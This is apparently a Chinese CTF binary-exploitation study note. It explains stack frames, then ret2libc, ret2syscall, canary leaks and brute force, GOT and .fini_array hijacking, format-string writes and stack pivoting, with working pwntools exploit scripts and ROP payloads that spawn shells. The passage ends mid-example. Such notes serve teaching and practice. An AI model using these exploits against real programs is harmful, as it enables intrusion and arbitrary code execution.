# 寄存器与栈帧

## 32 位寄存器

- 4个数据（通用）寄存器：(eax、ebx、ecx、edx)
- 6个段寄存器：（ES、CS、SS、DS、FS、GS）

- 2个变址寄存器：（ESI、EDI）
- 2个指针寄存器（ESP、EBP）
- 1个指令指针寄存器：EIP

其中

ebp为基指针寄存器，用它可直接存取堆栈中的数据。

esp为堆栈指针寄存器，用它只可访问栈顶。

## 64 位寄存器

X86-64有16个64位寄存器，分别是：%rax，%rbx，%rcx，%rdx，%esi，%edi，%rbp，%rsp，%r8，%r9，%r10，%r11，%r12，%r13，%r14，%r15。

```text
%rax 作为函数返回值使用。

%rsp 栈指针寄存器，指向栈顶

%rdi，%rsi，%rdx，%rcx，%r8，%r9 用作函数参数，依次对应第1参数，第2参数

%rbx，%rbp，%r12，%r13，%r14，%r15 用作数据存储，调用子函数之前要备份它，以防被修改

%r10，%r11 数据存储，使用之前要先保存原值
```

- 寄存器%eax、%edx和%ecx为主调函数保存寄存器(caller-saved registers)，当函数调用时，若主调函数希望保持这些寄存器的值，则必须在调用前**显式地**将其保存在栈中;被调函数可以覆盖这些寄存器，而不会破坏主调函数所需的数据
- 寄存器%ebx、%esi和%edi为被调函数保存寄存器(callee-saved registers)，即被调函数在覆盖这些寄存器的值时，必须先将寄存器原值压入栈中保存起来，并在函数返回前从栈中恢复其原值
- 被调函数必须保持寄存器%ebp和%esp，并在函数返回后将其恢复到调用前的值，即必须恢复主调函数的栈帧。

## 汇编指令

### push

```asm
//建立被调用者函数的堆栈框架
push %ebp
mov %esp, %ebp
```

相当于

```asm
sub $4, %esp//栈顶指针减4
mov %eax, %esp//%eax -> esp 地址
```

**先减再填**

### pop

```asm
//拆除框架
mov %ebp, %esp
pop %ebp
ret
```

相当于

```asm
mov (%esp), %eax
add %4, %esp//栈顶指针加4
```

### call

call 0x111

将当前的指令指针EIP(该指针指向紧接在call指令后的下条指令)压入堆栈，以备返回时能恢复执行下条指令；然后设置EIP指向被调函数代码开始处，以跳转到被调函数的入口地址执行

```asm
push %eip
mov $0x111, %eip//当前地址压栈，存入新地址
```

### ret

与call指令配合，用于从函数或过程返回。从栈顶弹出返回地址(之前call指令保存的下条指令地址)到EIP寄存器中，程序转到该地址处继续执行(此时ESP指向进入函数时的第一个参数)。使用该指令前，应使当前栈顶指针所指向位置的内容正好是先前call指令保存的返回地址。

```asm
pop %eip
```

### enter

```asm
push %ebp
mov %esp, %ebp//将堆栈置空（栈上重堆）
```

### leave

恢复主调函数的栈帧以准备返回。等价于指令序列movl %ebp, %esp(恢复原ESP值，指向被调函数栈帧开始处)和popl %ebp(恢复原ebp的值，即主调函数帧基指针)

```asm
mov %ebp, %esp
pop %ebp//将堆栈置空（撤销堆栈）
```

## 栈帧

调用者调用一个函数的过程大致如下：

函数参数从右到左入栈，返回地址入栈，上一函数ebp入栈

在上一函数ebp入栈后，就开辟了被调函数的新栈帧，接下来便是被调函数临时变量入栈等操作，如果被调函数里有继续调用新函数的操作，将继续开始上述的一系列操作，不断循环嵌套下去。下图表示函数调用过程中栈的布局情况。



函数调用结束时的变化，主要就是按相反的顺序将数据弹出栈：

弹出临时变量，弹出调用函数的ebp值，存到ebp寄存器中，弹出返回地址，存到eip寄存器中

返回地址是用call指令调用函数时下一条指令的地址，存到eip中，程序继续执行下一条指令。



# ret2libc

## 必要条件

- 存在溢出，且溢出范围足够大，可以覆盖到main函数的返回地址，还可以覆盖更远的区域。
- 存在类似于puts，write这样的打印函数。可以被利用，劫持程序的执行流程后，执行puts,write这样的函数打印一些已经执行过的函数的真实地址，以便我们寻找libc的基地址。

## 题目特点

- 开启了NX保护，即数据段不可执行。同时栈也是不可执行的。因此就别想通过写入shellcode再ret2shellcode这样的方法拿shell
- 程序本身也没有像system("/bin/sh")这样直接的后门函数，因此我们也不要想着直接ret2text这么直接
- .程序中可能既没有system函数，又没有"/bin/sh"字符串，需要我们在libc库中寻找

## 解题思路

- 找到system()函数和/bin/sh字符串在libc中的地址。
- 劫持程序的执行流程，让程序执行system("/bin/sh")。
  - 函数的真实地址   =   基地址   +   偏移地址
  - 这次运行程序的基地址 = 这次运行得到的某个函数func的真实地址  - 函数func的偏移地址
  - 像puts(),write()这样的函数可以打印内容，我们可以直接利用这些打印函数，打印出某个函数的真实地址（即got表中存放的地址）。某个函数又指哪个函数呢？由于Linux的延迟绑定机制，我们必须选择一个main函数中已经执行过的函数（这样才能保证该函数在got表的地址可以被找到），选哪个都可以，当然也可以直接选puts和write，毕竟题目中像puts和write往往会直接出现在main函数中。
  - 总结一下上面这段话，我们可以通过构造payload让程序执行puts(puts@got)或者write(1,write@got, 读取的字节数)打印puts函数/write函数的真实地址。

1. 首先寻找一个函数的真实地址，以puts为例。构造合理的payload1，劫持程序的执行流程，使得程序执行puts(puts@got)打印得到puts函数的真实地址，并重新回到main函数开始的位置。
2. 找到puts函数的真实地址后，根据其最后三位，可以判断出libc库的版本（本文忽略）。
3. 根据libc库的版本可以很容易的确定puts函数的偏移地址。
4. 计算基地址。基地址 = puts函数的真实地址 - puts函数的偏移地址。
5. 根据libc函数的版本，很容易确定system函数和"/bin/sh"字符串在libc库中的偏移地址。
6. 根据 真实地址 = 基地址 + 偏移地址 计算出system函数和"/bin/sh"字符串的真实地址。
7. 再次构造合理的payload2，劫持程序的执行流程，劫持到system("/bin/sh")的真实地址，从而拿到shell。

## payload

首先构造payload1，使得通过对局部变量的字符数组s输入过量的数据，覆盖了main函数的返回地址，将main函数的返回地址覆盖成了puts的plt表项，并通过合理的对栈的覆盖，实现传参（32位程序采用栈传参的方法），具体payload1的覆盖方法如下图：



首先要保证把main函数的返回地址覆盖为puts函数的地址，即puts的plt表，占4字节。紧接着上图中addr(_start)所在的位置（靠下的图片中浅蓝色的四个格子）相当于puts函数的返回地址，我们要求puts函数执行完成后再次返回main函数的起始位置，故这个位置应当填写main函数起始位置的地址，再往后的四个字节应当填写puts函数的参数，即任意一个已经执行过的函数，这里依旧可以填puts的got，因此我们构造的payload1如下

```
payload1 = b"a" * offset + puts_plt + addr_start + puts_got
```

利用payload得到puts函数的真实地址后，可以开始构造payload2

先利用put的真实地址找到程序的基地址，之后寻找system和/bin/sh的真实地址

```
libc_addr = puts_real_addr - libc.sym['puts']
print(hex(libc_addr))
system_addr = libc_addr + libc.sym["system"]
binsh_addr = libc_addr + next(libc.search(b"/bin/sh"))
```

找到这俩关键地址之后，就可以构造payload2了：



ayload2的原理就是让main函数的返回地址是system函数的真实地址，其后接任意一个4字节长度的数据，占位，表示system函数的返回地址（是啥不重要，因为执行了system("/bin/sh")之后就拿到shell了，我管他返回到哪里），再后面跟着system函数的参数，也就是"/bin/sh"字符串的真实地址即可：

## 64位程序

由于64位程序传参方式和32位程序不同，32位采用栈传参，而64位程序函数的前六个参数分别用寄存器rdi, rsi, rdx, rcx, r8, r9传参，后续参数采用栈传参。另外64位程序还有个栈平衡的问题，在最后的payload中需要添加一个ret指令的地址。

所以构造payload时，函数的地址得放去寄存器中，payload结构如下

```
payload = b"a" * offset #垃圾数据的填充
payload += p64(pop_rdi_ret_addr) #用寄存器rdi传参，参数是read_got
payload += p64(read_got) #想要存入rdi的参数
payload += p64(puts_plt) #puts的入口地址，即plt表的地址
payload += p64(main_addr) #程序的起始地址
```

pop_rdi_ret_addr，这个是个ROP，用ROPgadget寻找即可：

```bash
ROPgadget --binary ret2libc --only "pop|ret" | grep rdi
```

接下来基本上和32位的没啥区别了,由于操作系统的原因，需要添加一个ret指令用于栈平衡

```

payload = b"a" * offset
payload += p64(0x40101a) #需要添加一个ret，仅仅用于栈平衡
payload += p64(pop_rdi_ret_addr)
payload += p64(binsh_addr)
payload += p64(system_addr)

```

## system_plt和call system的区别

p32(system_plt) + p32(0) + p32(str_binsh) 可以替换成 p32(call_system) + p32(str_sh)
这是因为 call system 指令执行后会被当前 eip 寄存器的值压栈，所以在 p32(system_plt) + p32(0) + p32(str_binsh) 中我们用 p32(0) 作为 eip 寄存器的值进入栈中。那么我们使用 call system 指令的时候就不需要 p32(0) 作为 eip 寄存器的值进入栈中（call system 指令会自动实现将当前 eip 寄存器的值压栈），所以该指令后面直接跟参数
同样的，在 linux 中，/bin/sh 是二进制文件，而 sh 是环境变量，相当于执行 /bin/sh

# ret2syscall

必要条件：程序是静态链接，且程序中中存在代码片段，拼接可组成系统调用

## 32 位程序利用步骤

ROP查找pop eax,pop ebx,pop ecx,pop edx的地址

```bash
ROPgadget --binary shaokao --only "pop|ret" | grep eax
```

并把需要的系统调用号给eax（通常使用execve，即0x0b），把其余寄存器清空（给一个0进去即可）

再将/bin/sh（或者sh也可）的地址和int 0x80的地址作为参数传进去即可



## 64 位利用

与32位类似，但是传参的寄存器是rdi->rsi->rdx->rcx->r8->r9，即把需要的系统调用号给rax（64位），把rdx,rsi置零(因为是pop释放参数，所以与传参顺序相反)，binbash给rdi。

且ret返回的函数名不同

32位为int 0x80，64位为syscall ret

```bash
 ┌───────────────────────────────┐
 │    ... 原来的局部变量         │
 │    ... padding（溢出填充）    │
 ├───────────────────────────────┤
 │ 返回地址被覆盖为 pop_rdi_ret │  ← 第一次 ret 跳到这里
 ├───────────────────────────────┤
 │ "/bin/sh" 地址                │  ← pop rdi ; ret 把它弹进 RDI
 ├───────────────────────────────┤
 │ pop_rsi_ret gadget 地址       │
 ├───────────────────────────────┤
 │ 0                             │  ← RSi = 0
 ├───────────────────────────────┤
 │ pop_rdx_ret gadget 地址       │
 ├───────────────────────────────┤
 │ 0                             │  ← RDX = 0
 ├───────────────────────────────┤
 │ pop_rax_ret gadget 地址       │
 ├───────────────────────────────┤
 │ 59 (0x3b)                     │  ← RAX = 59（execve）
 ├───────────────────────────────┤
 │ syscall_ret gadget 地址       │  ← 最后跳到 syscall
 └───────────────────────────────┘
```

```python
payload = b'/bin/sh\x00'.ljust(0x28, b'a')
payload += p64(pop_rax_addr) + p64(0x3b)
payload += p64(pop_rdi_addr) + p64(name_addr)
payload += p64(pop_rsi_addr) + p64(0)
payload += p64(pop_rdx_rbx_addr) + p64(0) + p64(0)
payload += p64(syscall_addr)
io.sendline(payload)
```

# canary

## 获取canary

### 截断字符获取canary

Canary设计其低字节为\x00，本意是阻止被read、write等函数直接将Canary读出来。通过栈溢出将低位的\x00覆写，就可以读出Canary的值。

- 构造第一次溢出，覆写Canary低字节\x00，读取出Canary值
- 构造第二次溢出，利用获取的Canary重新构造payload，获取shell。

```python
from pwn import *

e = ELF('./test')

p = process('./test')

p.recvuntil('Hello Hacker!\n')
payload1 = b'a' *(0x70-0xc)

p.sendline(payload1)

recovered_canary = p.recv()

canary = u32(recovered_canary[0x65:0x68].rjust(4, b'\x00')) #65-68是canary所占的位置，本题buf是0x70 canary是0xc，同时32位程序中canary是四位，所以是65-68

print('Canary :' , hex(canary))

payload2 = b'a' *(0x70-0xc) + p32(canary) + b'b'*12 + p32(e.symbols['getshell'])

p.sendline(payload2)

p.interactive()

```

### 利用格式化字符串漏洞获取Canary

格式化字符串漏洞可以打印出栈中的内容，因此利用此漏洞可以打印出canary的值，从而进行栈溢出

- 如何确定canary位置

1. 首先确认当前输入的文本在栈中的位置.构造payload等于aaaa+n个%x-，然后观察输出，直到输出中包含61616161，即4个a的ascii码。如下所示：

```bash
root@kali:~/ctf/Other/pwn/CanaryTest# ./test
Hello Hacker!
aaaa%x-%x-%x-%x-%x-%x-%x-%x-
aaaaffeea598-200-8049243-f7f05d20-0-16161616-252d7825-78252d78-
# 数出61616161出现的位置，这里出现在栈中第6个位置，对应第6个%x
```

2. 从上一题我们知道从栈顶到canary的距离是0x70-0xc，而printf中的一个%x会输出4个字节，因此间隔了(0x70-0xC)/4=25个%x，因此从第6个%x开始，再输出25个%x就是canary的值

示例

```python
from pwn import *
context.log_level = 'debug'

conn = process('./test')

getshell = 0x080491b2
conn.recvuntil('Hello Hacker!\n')

# 第一次溢出
payload_1 = b'%x-' * ( 6 + 25)
conn.send(payload_1)
recvbytes = conn.recv()

# 获取canary
canary = int(recvbytes.split(b'-')[-2], 16)
print(f'Canary: {hex(canary)}')
# 第二次溢出
payload_2 = b'a' * (0x70 - 0xc) + p32(canary) + b'a' * 0xc + p32(getshell)
conn.send(payload_2)
conn.recv()
conn.interactive()
```

### 逐字节爆破

- 每次进程重启后的Canary是不同的，但是同一个进程中的Canary都是一样的。并且 通过 fork 函数创建的子进程的 Canary 也是相同的，因为 fork 函数会直接拷贝父进程的内存。
- 爆破次数：对于32位ELF，低字节固定是\x00，所以只需要对三个字节进行爆破。爆破方式是先利用栈溢出覆写次低字节，如果出错的话，会报错，获得正确的次低字节的话，不会报错。获取正确的次低字节之后，再依次爆破次高字节和高字节。每个字节的可能性是256，因此3个字节的逐个爆破总次数是256+256+256=768次

示例代码

```python
from pwn import *
import re
import time

#context.log_level = 'debug'

conn = process('./test2')

getshell = 0x080491f2

canary = b'\x00'
for i in range(3):
  for j in range(0, 256):
    #conn.recvuntil(b'Hello Hacker!')
    payload = b'a' * (0x70 - 0xC) + canary + p8(j)
    conn.send(payload)
    time.sleep(0.01)
    res = conn.recv()
    if ( b"stack smashing detected" not in res):
        print(f'the {i} is {hex(j)}')
        canary += p8(j)
        break
  assert(len(canary) == i+2) 
  
print(f'Canary : {hex(u32(canary))}')

# 第二次溢出
payload_2 = b'a' * (0x70 - 0xc) + canary + b'a' * 0xc + p32(getshell)
conn.send(payload_2)
conn.recv()
conn.interactive()
```

## 直接绕过canary

### 劫持__stack_chk_fail函数/格式化字符串相关

必要条件

- 劫持函数需要修改got表，所以要关闭relro（RELocation Read Only）
- 需要调用getshell函数，所以需要关闭pie（Position Indenpendent Executive）
- 本质是格式化字符串漏洞，所以输出一定得是printf

在开启canary保护的程序中，如果canary不对，程序会转到stack_chk_fail函数执行。stack_chk_fail函数是一个普通的延迟绑定函数，可以通过修改GOT表劫持这个函数。

这里利用pwntools中的fmtstr_payload()可以方便的进行地址的篡改

```python
fmtstr_payload(offset, writes, numbwritten=0, write_size=‘byte’)

#offset（int）: 字符串的偏移
#writes (dict): 注入的地址和值，{target_addr : change_to, }
```

示例代码

```python

from pwn import *

conn = process('./test3')
elf = conn.elf

stack_chk_fail_got = elf.got['__stack_chk_fail']
getshell = elf.sym['getshell'] # 0x080491a2

payload = fmtstr_payload(10, {stack_chk_fail_got: getshell})
payload = payload.ljust(0x70, b'a')

conn.send(payload)
conn.interactive()
```

# 劫持函数

有些开启了canary但只有一次输入和输出，无法泄露后绕过，一般都是劫持某个东西来直接导向后门

## Got表劫持

由于elf程序中的lazy binding(延迟绑定)机制，GOT可写，因此改写GOT造成任意控制程序流程

必要条件

- RELRO仅开启部分保护，即Partial RELRO

### 数组越界劫持got表 例题 HGAME 2023 week1

链接： https://www.nssctf.cn/problem/3491

反编译后，代码如下


漏洞点如下


这里没有对读入的数据进行约束，所以可以读入任意数字，实现&seat周围的所有地址任写，在ida中查看&seats周围地址处内容


可以看到seat的地址为0x4040A0，exit的.got.plt表的地址为0x404040，exit在seat的低地址处，正好用负数来覆写，两者之差为96，96/16=6，所以用-6可以改变exit，把exit改成_start后可以实现程序的无限循环
第二次循环到主函数后，以为read在30，所以用-7可以改变read地址所指向的东西，以及后面会将read的地址打印出来，但是这里我们需要read的真实地址，所以不能修改read的地址，那就得去找到read的最后一位，保证我们输入的和read函数的最后一位一样，从而在不更改read地址的情况下得到read的地址，然后ret2libc


可以看到最后一位是0c，可以开始编写代码

示例代码如下

```python
from pwn import *


e = ELF('./vuln')
libc = ELF("./libc-2.31.so")
p = remote("node5.anna.nssctf.cn",28412)
context.log_level = 'debug'
addr_rdi_ret = p64(0x401393)
addr_main = p64(0x4012d1)
puts_plt = e.plt['read']
puts_got = e.got['read']

# 第一次输入 seat 选择
p.sendafter("seat from 0 to 9, please choose one.", '-6\n')

# 第二次输入 name（payload）
p.sendafter("please input your name", addr_main )

p.sendafter("seat from 0 to 9, please choose one.", '-7\n')

p.sendafter("please input your name",  b'\xc0')
# 后续逻辑不变
read_real_addr = u64(p.recvuntil(b'\x7F')[-6:].ljust(8,b'\x00'))


libc_addr = read_real_addr - libc.sym['read']
print(hex(libc_addr))
system_addr = libc_addr + libc.sym["system"]

binsh_addr = libc_addr + next(libc.search(b"/bin/sh"))

p.sendafter("seat from 0 to 9, please choose one.", '-6\n')
p.sendafter("please input your name", addr_main )

# 再来一轮
p.sendafter("seat from 0 to 9, please choose one.", '-9\n')
p.sendafter("please input your name", b'/bin/sh\x00'+p64(system_addr))
p.interactive()
```

### 非栈上格式化字符串漏洞劫持got表

#### 非栈上格式化字符串漏洞

1. 基础知识

- 用于地址写的格式化字符：
- %hhn（写入一字节）
- %k$hn：将字符总数写入第 k 个参数指向的地址（hn 表示写入 2 字节）
- %n（32位写四字节，64位写8字节）
- %< number >$type：
- 直接作用第number个位置的参数
- %7$x读第7个位置参数值
- %7$n对第7个参数位置进行写
- %hhx 会从输入中读取十六进制格式的数据，并将其写入 1 字节（unsigned char）大小的变量中

写入的模板如下

```bash
desired = V              # 想写入的值（低 2 字节）
base    = already_bytes  # 在进入 %...c 之前，printf 已经输出的字节数
delta   = (desired - base) & 0xffff  # 计算还需要再输出多少个字节

fmt = f'%{delta}c%{idx}$hn'
```

一般来说，栈上的格式化字符串漏洞利用步骤是先泄露地址，包括ELF程序地址和libc地址；然后将需要改写的GOT表地址直接传到栈上，同时利用%c%n的方法改写入system或one_gadget地址，最后就是劫持流程。但是对于BSS段或是堆上格式化字符串，无法直接将想要改写的地址指针放置在栈上，也就没办法实现任意地址写。

##### 例题 hitcontraining_playfmt



这里直接打印buf，明显可以利用格式化字符串漏洞

查看buf存储的位置，在bss段上，非栈上的格式化字符串漏洞



虽然buf不在栈上，但是do_fmt的返回地址在栈上，确定返回地址和格式化字符串的偏移值

进入gdb调试，查看play函数和do_fmt函数



可以看到play调用do_fmt后的地址为0x080485ad，所以返回地址为0x080485ad，接下来只要确定偏移就好


可以看到第七个数的值是我们刚刚看到的返回地址，所以偏移就是七

%Yc%X$n: 将Y写入栈上第X个位置指针指向的位置

也就是说，假设栈上第X个位置的值为0x0804aaaa，那么我们在利用格式化字符串进行篡改时，并不能直接将0x0804aaaa修改为0x0804bbbb，只能修改[0x0804aaaa]存储的内容。

因此如果我们利用%Yc%7$n修改返回地址，实际上实在修改0x80485ad存储的代码，这肯定是会报错的。

本题的关键在于利用ebp链，利用gdb调试可以看到栈的结构如下所示：



ebp在返回地址前，所以第六个偏移是ebp，储存的内容是0xffffb5a8，假设我们利用%`144c%6\$hhn`进行篡改，实际上会将地址0xffffb5a8中存储的地址0xffffb5b8，改成0xffffb59c（144是0x9c的十进制），之后，再使用 `Yc%10$n`对栈中第10个位置进行篡改，就可以将0xffffb59c中存放的返回地址改成任意我们想要它去的地方

之后再需要输入quit退出循环，因此shellcode的地址是[buf+4]，即0x0804a064，因此返回地址需要覆盖为0x0804a064

示例代码

```
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

def duan():
    gdb.attach(p)
    pause()

x64_32 = 0
if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
buf=0x0804A060
pre_ebp=0x080485AD

#aaaa-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
#aaaa-0x8048680-0x4-0x8048507-0x8048685-0x804a000-0xffffce98-0x80485ad-0xf7fb5d60-0x804a000-0xffffcea8-0x80485ea-0xffffcec0-(nil)-(nil)-0xf7e1a647-0xf7fb5000-0xf7fb5000-(nil)

ru('==\n')
sl('%6$p')
ru('0x')
stack_addr=int(r(8),16)-0x28+0x1c
leak('stack_addr:',stack_addr)

#gdb.attach(p)

pl = b'%' + str(stack_addr & 0xff).encode() + b'c%6$hhn' 
pl = pl.ljust(200,b'\x00')
s(pl)
p.recv()
#duan()

pl = b'%' + str(0xa064).encode() + b'c%10$hn' 
pl = pl.ljust(200, b'\x00')
s(pl)
p.recv()
#duan()

shellcode = asm(shellcraft.sh())
pl = b'quit' + shellcode
s(pl)

itr()
```

# fini_array劫持

## 背景知识

程序的启动流程如下图：



main函数不是程序的起点，text段的起点是_start函数，_start函数调用libc_start_main完成启动和退出
main函数的返回地址就是 libc_start_main

libc_csu_fini 函数是 main 函数退出返回到 libc_start_main 后，通过 __libc_start_main 调用的。具体看看函数



这里可以看到libc_start_main的三个比较重要的参数
rdi --> main
rcx --> libc_csu_init
r8 --> __libc_csu_fini

libc_csu_init 在 main 开始前执行 , libc_csu_fini 在 main执行完后执行
所以这里我们可以利用修改 __libc_csu_fini 的数组来控制程序执行流

_fini_array（或 __fini_array）是一个特殊的ELF符号数组，用于存储在程序或共享对象的终止（清理）阶段将要执行的终止函数的地址。

在ELF二进制文件中，除了存储初始化函数数组（.init_array）之外，还可以包含一个终止函数数组（.fini_array）。这些函数会在程序或共享对象退出或终止时以相反的顺序执行，用于进行资源清理、关闭文件描述符、释放内存等操作。

_fini_array符号是由链接器在将目标文件或库连接到可执行文件时生成的。它指向一个由终止函数地址组成的数组。运行时的链接器/加载器会在程序或共享对象终止时依次调用这些函数，以完成清理工作。

类似于_init_array，_fini_array是ELF文件中的一部分，属于特殊的节（section）之一。这些特殊节在程序执行过程中具有特定的目的和执行顺序。其他常见的特殊节包括.text（包含程序指令）和.data（包含已初始化的全局和静态数据）。

所以我们可以劫持fini_array数组来劫持程序执行流

## 无限循环

很多时候题目的漏洞指利用一次是不够我们 capture the flag 的，因此我们需要达到漏洞的重复利用。以这题为例，我们可以构造：.fini_array[0] == __libc_csu_fini &&.fini_array[1] == main

当程序退出时，先执行 main 函数，然后执行 __libc_csu_fini 函数。该函数的作用就是调用所有 .fini_array 中的函数，于是回到步骤1。因此形成了无限循环。

## 如何定位.fini_array和__libc_csu_fini 的地址

```bash
readelf -S ./3x17 | grep .fini_array
```

我们需要将 ROP chain 放到栈上去。__libc_csu_fini 函数为我们创造了条件：

```text
push    rbp
lea     rax, unk_4B4100
lea     rbp, off_4B40F0
push    rbx
```

以上是 __libc_csu_fini 函数的开头，其中lea rbp, off_4B40F0中的0x4B40F0就是 .fini_array 的起始地址。换言之，在运行完 __libc_csu_fini 函数后，rbp 的值为 .fini_array 的起始地址。接下来只要利用 leave ; ret 就可以让返回地址为 fini_array + 0x8

因此只要令.fini_array[0] 处为leave ; ret gadget 的地址，且从.fini_array + 0x8 开始为 ROP chain 即可 get shell

我们可以在fini_array[2]，构造我们的rop链，之后

将fini_array[0]改成leave_ret,fini_array[1]改成ret
这样执行完main函数后就会执行fini_array[0]的leave_ret
然后就沿着fini_array[1]往下执行了，fini_array[1]这时候为ret，就继续执行fini_array[2]

### 例题 NSSCTF [NSSRound#14 Basic]xor

ida看一下



提供了一次写任意地址的机会，可以自己选择地址和值，一次肯定是无法构造成功的，所以我们需要多次写

我们可以通过将flag的前两位覆盖为ff，这样flag就会是一个很大发负数，满足我们多次使用的场景


dd = 4 字节，也就是 int flag;， x86中是小端序，内存从低地址到高地址：低位字节 → 高位字节，所以要覆盖flag的最高位得是flag的起始地址加三，即0x600BCF，所以我们可以先将0x600BCF和0xff相与，使得可以多次任写地址

然后就可以去修改 __fini_array了

查看fini_array的位置

```bash
(ctf) ┌──(root㉿x86_64-conda-linux-gnu)-[~/Pwn]
└─# readelf -S pwn | grep .fini_array
  [20] .fini_array       FINI_ARRAY       0000000000600970  00000970

pwndbg> x/2xg 0x600970
0x600970:       0x0000000000400610      0x0000000000000000
```

所以我们修改0x600970中的内容，就可以使得main程序返回到我们希望其去的位置
因为可以无限任意写，所以就先去写一个bss段的地址，然后在地址上布置好shellcode，最后退出执行即可

payload如下

```bash
from pwn import *
from struct import pack
from ctypes import *
import base64
#from LibcSearcher import *

def debug(c = 0):
    if(c):
        gdb.attach(p, c)
    else:
        gdb.attach(p)
        pause()
def get_sb() : return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))
#-----------------------------------------------------------------------------------------
s = lambda data : p.send(data)
sa  = lambda text,data  :p.sendafter(text, data)
sl  = lambda data   :p.sendline(data)
sla = lambda text,data  :p.sendlineafter(text, data)
r   = lambda num=4096   :p.recv(num)
rl  = lambda text   :p.recvuntil(text)
pr = lambda num=4096 :print(p.recv(num))
inter   = lambda        :p.interactive()
l32 = lambda    :u32(p.recvuntil(b'\xf7')[-4:].ljust(4,b'\x00'))
l64 = lambda    :u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
uu32    = lambda    :u32(p.recv(4).ljust(4,b'\x00'))
uu64    = lambda    :u64(p.recv(6).ljust(8,b'\x00'))
int16   = lambda data   :int(data,16)
lg= lambda s, num   :p.success('%s -> 0x%x' % (s, num))
#-----------------------------------------------------------------------------------------

context(os='linux', arch='amd64', log_level='debug')
#p = process('./pwn')
p = remote('node4.anna.nssctf.cn', 28555)
elf = ELF('./pwn')
#libc = ELF('/home/xsh/Desktop/libc.so.6')

def xor_(a, b):
	sla(b'addr: ', str(hex(a)))
	sla(b'value: ', str(hex(b)))

sc = asm(shellcraft.sh())
buf = 0x600c00

# set flag < 0
xor_(0x600bcc + 3, -1)

# set shellcode -> buf
for i in range(len(sc)):
	xor_(buf + i, sc[i])

# set buf -> fini_array
xor_(0x600970, 0 ^ 0x10)
xor_(0x600971, 0xc ^ 0x6)
xor_(0x600972, 0x60 ^ 0x40)

# set flag > 0
xor_(0x600bcc + 3, 0xff ^ 0)

inter()
```

# 栈迁移

一般我们进行栈溢出攻击的时候，题目一般会给出足够大的空间写入我们的构造的ROP链，但是有一些题目会限制你的输入空间，这样的时候就是需要我们利用栈迁移将我们的栈转移到别的地方，一般是在bss段，我们可以在bss段设定一段gadget，之后将栈迁移从而getshell

栈迁移的关键在于利用leave;ret指令，这里我详细说明一下leave和ret具体是什么

leave指令即为mov esp ebp;pop ebp先将ebp赋给esp，此时esp与ebp位于了一个地址，你可以现在把它们指向的那个地址，即当成栈顶又可以当成是栈底。然后pop ebp，将栈顶的内容弹入ebp(此时栈顶的内容也就是ebp的内容，也就是说现在把ebp的内容赋给了ebp)

我们将栈上 ret 部分覆盖为另一组 leave ret指令（gadget）的地址，即最终程序退出时会执行两次 leave 指令，一次 ret 指令。由此，当 pop ebp 被第一次执行后，eip 将指向又一条 mov esp, ebp指令的地址，而此时 ebp 寄存器的内容已变为了第一次 pop ebp 时，被篡改过的栈上 ebp 的数据。这样，esp 就会被「骗」到了另外的一处内存空间，从而整个函数的栈空间也完成了「迁移」。

## 栈迁移利用

首先要进行**栈溢出将ebp修改为目标地址**(也就是需要进行迁移的地址)，并且把ret addr填充为leave;ret指令的地址

开始执行第一个leave;ret，首先是确保可以栈溢出将ebp,ret_addr都可以覆盖,之后将ebp修改为需要迁移到的地址(一般是我们构造好ROP链的位置)，ret_addr修改为leave;ret的指令的地址，之后mov esp,ebp，esp和ebp处于同一位置，指向同一个地址，之后pop ebp，将栈顶的内容弹出给ebp，之后我们的ebp就来到了目标地址，再ret->pop eip，我们的存有leave_ret_addr的地址就作为返回地址存储到了eip中，接下来立马再次执行一次leave;ret



第二个leave;ret,此时ebp和esp的位置互换了，之后再执行mov ebp,esp就可以将esp迁移到ebp的位置，至此我们的esp,ebp已经完全迁移到目标地址了，之后再pop ebp，将栈顶没用的内容弹出，此时栈顶的内容就是system@plt的地址了，这个时候我们再执行ret->pop eip的话，其实就是将栈顶的内容也就是(sytem@plt)弹入到eip中，我们接下来就是执行system@plt从而getshell



第一次leave;ret，其实就是让ebp放入目标地址

第二次leave;ret，就是将esp也迁移到ebp的位置，之后pop ebp，esp指向下一个内存单元，如上图，这里esp是指向了system@plt，从而getshell

所以构造链为

```python
### 原栈payload
offset（到ebp）+ p32(要去的地址) + p32(leave_ret_addr)

### 伪造栈payload
payload = b'a'*4 + p32(system_plt) + b'a'*4 + p32(old_edp - 0x28) + b'/bin/sh\x00'


栈顶(esp) →
+------------------+
| system函数地址    | ← ret 指向这里，执行 system
+------------------+
| fake ebp         | ← system 需要用到的假ebp
+------------------+
| /bin/sh的地址     | ← 作为 system("/bin/sh") 的参数
+------------------+
| /bin/sh          |
+------------------+

```

为什么 system 的第一个参数 应该给的是一个 指向 /bin/sh 的地址 ，而不是 /bin/sh 这个字节

因为在 C 语言和系统调用规则里，system 函数的参数是一个 指针，指向 一段字符串 的地址，而不是直接传字符串的内容

### 32位栈迁移例题  nss ctf [CISCN 2019东南]PWN2

ida看一下，给了三个函数，main，hack和vuln

vuln函数中，给了个s分配了0x20的地址，可以读入0x30个东西，同时ebq距离s0x28

可控制的字符只有0x30个，完全不够溢出后构造链，考虑栈迁移

vuln中给了两个printf，printf遇到 '\x00'停止打印，我们可以把s分配的0x20写满，这样就没法加上 '\x00'，printf就会把ebp中存的old_ebp（即main函数的栈帧ebp）打印出来，所以我们现在得确定old_epb和s的相对位置

gdb动态调试一下，在vul中打断点

```bash
pwndbg> stack 30
00:0000│ esp 0xffffb508 ◂— 0x20 /* ' ' */
